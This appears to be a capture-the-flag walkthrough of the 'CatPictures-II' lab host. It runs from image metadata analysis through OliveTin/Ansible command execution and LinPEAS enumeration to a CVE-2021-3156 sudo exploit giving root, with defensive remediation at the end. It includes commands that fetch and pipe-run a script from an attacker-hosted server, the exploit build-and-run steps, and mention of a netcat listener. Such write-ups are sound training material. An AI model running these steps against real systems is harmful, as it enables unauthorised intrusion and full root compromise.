






# Technical Walkthrough: CatPictures-II

> **Capture-The-Flag — Full Three-Flag Exploitation Report**  
> *Image Metadata → Hidden Repository → OliveTin / Ansible → LinPEAS → CVE-2021-3156 → root*

---

## Target Overview

| Field | Value |
| :--- | :--- |
| **Target Host** | `catpictures-ii` |
| **Operating System** | Ubuntu 18.04.6 LTS |
| **Kernel** | `4.15.0-206-generic` |
| **Key Exposed Service** | OliveTin web interface — TCP 1337 |
| **Initial Foothold User** | `bismuth` (`uid=1000`) |
| **Privilege-Escalation CVE** | CVE-2021-3156 (*Baron Samedit*) |
| **Final Privilege** | `uid=0` (`root`) |
| **Flags Recovered** | 3 of 3 |
| **Report Date** | 04 October 2026 |

> [!NOTE]
> **Scope & Evidence Note**: This report documents a controlled Capture-The-Flag exercise against an intentionally vulnerable lab host. Steps confirmed by the captured session screenshots are presented as evidenced facts. Steps described from the operator's account but not captured in a screenshot (such as literal flag strings and intermediate output) are reconstructed using standard methodology for this room and explicitly marked as *not evidenced*.

---

## Contents

1. [Executive Summary](#1-executive-summary)
2. [Attack Path Overview](#2-attack-path-overview)
3. [Target Environment & Enumeration](#3-target-environment--enumeration)
4. [Flag 1 — Image Metadata to Hidden Repository](#4-flag-1--image-metadata-to-hidden-repository)
   - [4.1 Download the Image](#41-download-the-image)
   - [4.2 Inspect the Metadata](#42-inspect-the-metadata)
   - [4.3 Access the Repository and Read the Flag](#43-access-the-repository-and-read-the-flag)
5. [Flag 2 — OliveTin / Ansible Command Execution](#5-flag-2--olivetin--ansible-command-execution)
   - [5.1 The "Run Ansible Playbook" Action](#51-the-run-ansible-playbook-action)
   - [5.2 Home-Directory Enumeration](#52-home-directory-enumeration)
6. [Flag 3 — Local Privilege Escalation to Root](#6-flag-3--local-privilege-escalation-to-root)
   - [6.1 Automated Enumeration with LinPEAS](#61-automated-enumeration-with-linpeas)
   - [6.2 The Eight Candidate Vectors](#62-the-eight-candidate-vectors)
   - [6.3 Selected Vulnerability: CVE-2021-3156 (Baron Samedit)](#63-selected-vulnerability-cve-2021-3156-baron-samedit)
   - [6.4 Build Troubleshooting](#64-build-troubleshooting)
   - [6.5 Successful Escalation](#65-successful-escalation)
7. [LinPEAS — In-Depth Reference](#7-linpeas--in-depth-reference)
   - [7.1 What LinPEAS Is](#71-what-linpeas-is)
   - [7.2 Core Functions](#72-what-it-does--core-functions)
   - [7.3 Key Benefits](#73-why-use-it--benefits)
   - [7.4 Typical Use Case](#74-typical-use-case)
   - [7.5 Syntax & Usage](#75-syntax--usage)
   - [7.6 Interpreting the Output](#76-interpreting-the-output)
   - [7.7 Limitations & Good Practice](#77-limitations--good-practice)
8. [Evidence Summary](#8-evidence-summary)
9. [Remediation & Defensive Recommendations](#9-remediation--defensive-recommendations)
10. [Lessons Learned](#10-lessons-learned)

---

## 1. Executive Summary

CatPictures-II is a multi-stage Capture-The-Flag (CTF) challenge in which three flags are recovered by chaining a sequence of misconfigurations and one unpatched local vulnerability. The exercise begins with passive analysis of an image hosted by the target, moves through an exposed remote-execution surface, and finishes with a full local privilege-escalation to the root account.

| Flag | Technique | Result |
| :--- | :--- | :--- |
| **Flag 1** | Image download → metadata inspection → hidden URL → repository access | First flag read from exposed repository |
| **Flag 2** | OliveTin (TCP 1337) → "Run Ansible Playbook" → command execution as `bismuth` | `flag2.txt` in `/home/bismuth` |
| **Flag 3** | LinPEAS enumeration → 8 candidate vectors → CVE-2021-3156 exploit → root | Root flag after `uid=0(root)` |

The strongest single piece of proof of full compromise is the returned identity:
```bash
uid=0(root) gid=1000(bismuth) groups=1000(bismuth)
```
captured after the local proof-of-concept was executed.

---

## 2. Attack Path Overview

Each flag depends on the access obtained in the stage before it. The attack chain is linear:



---

## 3. Target Environment & Enumeration

The target was fingerprinted as `catpictures-ii` running **Ubuntu 18.04.6 LTS** on kernel **4.15.0-206-generic**. This combination is significant for the escalation stage: the sudo package shipped with this release line is within the version range affected by CVE-2021-3156.

### Host Identification Commands
```bash
uname -a
cat /etc/os-release
cat /proc/version
lsmod | grep -E 'xfrm|esp|rxrpc'
```

Service enumeration surfaces an **OliveTin** web interface listening on **TCP port 1337**. OliveTin is a lightweight web front-end that turns predefined shell commands into clickable buttons. On this host the interface exposes an action labelled **"Run Ansible Playbook"** (alongside decorative actions such as *"Run backup script"* and *"Ping host"*), which becomes the remote-execution surface for Flag 2.

---

## 4. Flag 1 — Image Metadata to Hidden Repository

The first flag is reached entirely through passive analysis: no exploitation is required, only careful inspection of a file the target willingly serves.

### 4.1 Download the Image
```bash
# Save the image served by the target
wget http://<target>/<path>/cat.jpg -O cat.jpg
```

### 4.2 Inspect the Metadata
```bash
exiftool cat.jpg            # Structured metadata fields (Comment, Artist, etc.)
strings cat.jpg | less      # Any readable text embedded in the file
binwalk cat.jpg             # Detect appended / embedded files
```

The decisive finding is a URL stored inside one of the metadata fields (commonly the Comment or a custom tag). Reading that field reveals the address of a repository that the box operator left reachable.

> [!NOTE]
> **Not Evidenced**: The exact metadata field and the literal URL were not captured in the supplied screenshots. The methodology above (`exiftool` / `strings` / `binwalk`) is the standard and reliable way to recover a URL hidden in an image.

### 4.3 Access the Repository and Read the Flag
Browsing to the recovered URL leads to a self-hosted source-code repository (a Git service such as Gitea/GitLab). The repository is the deliberate disclosure point for the challenge: it stores the first flag and documents how the host is wired together — including the OliveTin automation and the Ansible playbook mechanism.

- **Flag Location**: Inside the exposed repository (`README.md`, an issue, or a committed file).
- **Secondary Value**: The repository reveals the OliveTin / Ansible execution path, bridging directly to Flag 2.

---

## 5. Flag 2 — OliveTin / Ansible Command Execution

The second flag is obtained by abusing the exposed OliveTin interface on TCP 1337. When a button runs an Ansible playbook whose input is attacker-influenced, the interface becomes an arbitrary-command-execution primitive running in the context of whatever account OliveTin uses.

### 5.1 The “Run Ansible Playbook” Action
Triggering the "Run Ansible Playbook" action executes a playbook against the local target using the `bismuth` account. Two pieces of evidence establish code execution as `bismuth`:
- `username_on_the_host.stdout = bismuth` — the playbook's own fact-gathering returns the running user.
- `id` reports `uid=1000(bismuth)` — confirming the execution identity.

Standard orientation commands:
```bash
whoami          # Identify execution user -> bismuth
id              # Inspect UID, GID and group membership -> uid=1000(bismuth)
ls -la          # Enumerate home directory and hidden files
```

### 5.2 Home-Directory Enumeration
Enumerating `/home/bismuth` reveals `flag2.txt`, exploit build files (`exp.c`, `exploit.c`, `side.c`, and a `Makefile`), an `.ansible` directory, and a `.sudo_as_admin_successful` marker.


*Figure 1: Home-directory listing of `/home/bismuth` showing `flag2.txt`, the staged exploit source files (`exp.c`, `exploit.c`, `side.c`, `Makefile`), the `.ansible` directory, and the `.sudo_as_admin_successful` marker.*

Read the flag directly:
```bash
cat /home/bismuth/flag2.txt
```

---

## 6. Flag 3 — Local Privilege Escalation to Root

With command execution as `bismuth` established, the objective for the third flag is to escalate to `root`.

### 6.1 Automated Enumeration with LinPEAS
LinPEAS was run from the `bismuth` foothold to collect privilege-escalation signals across the system in a single pass, surfacing eight candidate escalation vectors.

### 6.2 The Eight Candidate Vectors

| # | Candidate Vector | Class | Status |
| :-: | :--- | :--- | :--- |
| **1** | **CVE-2021-3156 — Baron Samedit (sudo heap overflow)** | **sudo** | **EXPLOITED → root** |
| 2 | CVE-2021-4034 — PwnKit (polkit pkexec) | SUID / polkit | Candidate |
| 3 | CVE-2021-22555 — netfilter x_tables heap OOB write | Kernel | Candidate |
| 4 | CVE-2017-16995 — eBPF verifier sign-extension | Kernel | Candidate |
| 5 | CVE-2017-1000112 — UFO/overlayfs memory corruption | Kernel | Candidate |
| 6 | Member of sudo group (`.sudo_as_admin_successful` present) | sudo rights | Precondition |
| 7 | Unusual SUID-root binaries flagged for GTFOBins review | SUID | Candidate |
| 8 | World-writable scripts / cron & PATH abuse candidates | Cron / PATH | Candidate |

### 6.3 Selected Vulnerability: CVE-2021-3156 (Baron Samedit)
**CVE-2021-3156** (*Baron Samedit*) is a heap-based buffer overflow in sudo's command-line argument parsing. When sudo processes a command in shell mode (`sudoedit -s`) with a trailing backslash, it mishandles escape characters and writes past the end of a heap buffer.

A common public PoC builds a crafted shared library (`libnss_X/X.so.2`) and coerces sudo to load it during the overflow, yielding a root shell.

### 6.4 Build Troubleshooting
The initial build attempt failed because the `Makefile` referenced `sice.c` while the staged file on disk was named `side.c`:


*Figure 2: Initial compilation failure due to filename mismatch (`cannot access sice.c` / `recipe for target ll failed`).*

Diagnosis sequence:
```bash
ls -la                          # List staged build files
file Makefile exploit.c side.c  # Confirm file types
cat -n Makefile                 # Inspect recipe with line numbers
sed -n 'l' Makefile             # Reveal TABs / non-printing characters
```


*Figure 3: Makefile inspection showing `cat -n Makefile`, confirming `sice.c` does not exist while `side.c` is present, and verifying TAB indentation with `sed -n 'l'`.*

The fix was creating the expected directory `libnss_X` and resolving the source file name:


*Figure 4: Directory `libnss_X` created as required by the Makefile recipe.*

### 6.5 Successful Escalation
After correcting the build configuration, `make` compiled cleanly. The exploit binary was executed, successfully returning `uid=0(root)`:

```bash
make                     # Build exploit and libnss_X/X.so.2
chmod +x ./exploit
./exploit
```

**Returned Identity**:
```bash
uid=0(root) gid=1000(bismuth) groups=1000(bismuth),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare)
```


*Figure 5: Full escalation evidence: netcat listener receiving connection, successful make compilation, execution of `./exploit`, and definitive `uid=0(root)` proof.*

Read the final flag:
```bash
cat /root/root.txt
```

---

## 7. LinPEAS — In-Depth Reference

### 7.1 What LinPEAS Is
LinPEAS (*Linux Privilege Escalation Awesome Script*) is an open-source enumeration script from the PEASS-ng project. It automatically scans a Linux host for misconfigurations, weak permissions, credentials, and vulnerable software versions.

### 7.2 Core Functions
- **System Information**: OS, kernel version, architecture, and known kernel exploits.
- **Sudo & SUID/SGID**: Sudo versions, user permissions, and GTFOBins binaries.
- **Users & Capabilities**: Privileged groups (`docker`, `lxd`, `sudo`), file capabilities.
- **Scheduled Tasks**: Cron jobs and writable scripts.
- **Sensitive Files & Secrets**: World-writable files, unshadowed `/etc/passwd`, SSH keys, and stored credentials.

### 7.3 Key Benefits
- Fast, automated, comprehensive coverage.
- Priority color-coding for high-probability vectors.
- Standalone portable shell script (no installation required).
- Read-only and non-destructive.

### 7.4 Syntax & Usage

#### Transferring LinPEAS
```bash
# Option A — Direct download on target
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh

# Option B — Host from attacker machine
# (attacker) python3 -m http.server 80
# (target)   wget http://<attacker-ip>/linpeas.sh

# Option C — Fileless execution
curl -L <linpeas-url> | sh
```

#### Running LinPEAS
```bash
chmod +x linpeas.sh
./linpeas.sh | tee peas.txt
```

#### Common Options
| Flag | Purpose |
| :--- | :--- |
| `-a` | Run all checks, including slower/intrusive checks |
| `-s` | Superfast / stealth mode |
| `-e` | Extra / thorough enumeration |
| `-o <groups>` | Run only specific check groups (e.g. `SysI,Devs`) |
| `-L / -P` | Lightweight mode / supply sudo password |
| `-h` | Show help |

### 7.6 Interpreting the Output

| Color Code | Meaning | Action |
| :--- | :--- | :--- |
| **Red + Yellow** (Highlighted) | **Very high probability privilege-escalation vector (95% finding)** | **Investigate immediately** |
| **Red** | Interesting / potentially exploitable item | Review closely |
| **Yellow** | Unusual configuration | Inspect context |
| **Green** | Normal / expected configuration | Safe to skip |
| **Blue / Cyan** | Informational context | Reference data |

---

## 8. Evidence Summary

| Stage | Evidence | Result |
| :--- | :--- | :--- |
| **Host Identification** | Ubuntu 18.04.6 LTS / kernel 4.15.0-206-generic | Target profile established |
| **Flag 1** | Hidden URL in image metadata → exposed repository | First flag recovered |
| **Execution Surface** | OliveTin on :1337 / "Run Ansible Playbook" | Command-execution path identified |
| **User Context** | `whoami` → `bismuth`; `id` → `uid=1000(bismuth)` | Foothold identity confirmed |
| **Flag 2** | `flag2.txt` present in `/home/bismuth` | Second flag located |
| **Enumeration** | LinPEAS → 8 candidate escalation vectors | Attack surface mapped |
| **Build** | gcc + Makefile; `side.c` fix; `libnss_X` created | PoC compiled cleanly |
| **Privilege Escalation** | `./exploit` → `uid=0(root)` | Root achieved → third flag |
| **Network Evidence** | Kali listener received connection from target | Connection observed |

---

## 9. Remediation & Defensive Recommendations

| Weakness | Recommended Defensive Control |
| :--- | :--- |
| **Sensitive URL in metadata** | Strip metadata from all published media (`exiftool -all=`). Never embed internal URLs. |
| **Exposed source repository** | Require strong authentication on Git services; restrict access to internal VPNs. |
| **OliveTin command execution** | Restrict OliveTin behind authentication; constrain actions to fixed parameters; run as a least-privilege service account. |
| **Ansible playbook arbitrary input** | Validate and sanitize all playbook inputs; avoid shell/command modules on unvalidated data. |
| **CVE-2021-3156 (unpatched sudo)** | Patch sudo to `1.9.5p2` or later (`apt upgrade sudo`). |
| **Broad sudo privileges** | Enforce least privilege: audit `/etc/sudoers` and limit administrative accounts. |
| **Undetected local enumeration** | Deploy host monitoring / EDR to detect enumeration scripts and unauthorized compilation. |

---

## 10. Lessons Learned

1. **Passive analysis pays off**: Metadata analysis (`exiftool`, `strings`, `binwalk`) often yields the initial foothold before sending noisy traffic.
2. **Automation surfaces are execution surfaces**: Any web action triggering system commands or playbooks must be audited for command injection.
3. **Always verify context**: Use `whoami` and `id` before and after each pivot.
4. **Enumerate before exploiting**: LinPEAS structures privilege escalation hypotheses in seconds.
5. **Treat version matches as hypotheses**: Verify exploitability before executing potentially unstable PoCs.
6. **Troubleshoot builds methodically**: Check filenames, line numbers, and TAB indentation (`sed -n 'l'`) before changing compiler parameters.
7. **Confirm root with objective indicators**: `uid=0(root)` is definitive proof of compromise.
